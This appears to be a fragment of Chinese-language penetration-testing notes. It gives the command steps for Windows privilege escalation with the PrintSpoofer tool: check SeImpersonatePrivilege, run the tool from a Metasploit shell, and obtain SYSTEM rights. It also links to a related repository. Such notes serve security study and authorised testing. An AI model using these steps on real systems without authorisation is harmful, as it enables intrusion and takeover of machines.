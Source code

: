 	>whoami /priv 可以看到SeImpersonatePrivilege状态为Enabled
	上传https://github.com/itm4n/PrintSpoofer/releases
	用msf交互式shell执行
	>PrintSpoofer64.exe -i -c cmd
	>whoami  即可获得system权限
##### 更多
  	https://github.com/gtworek/Priv2Admin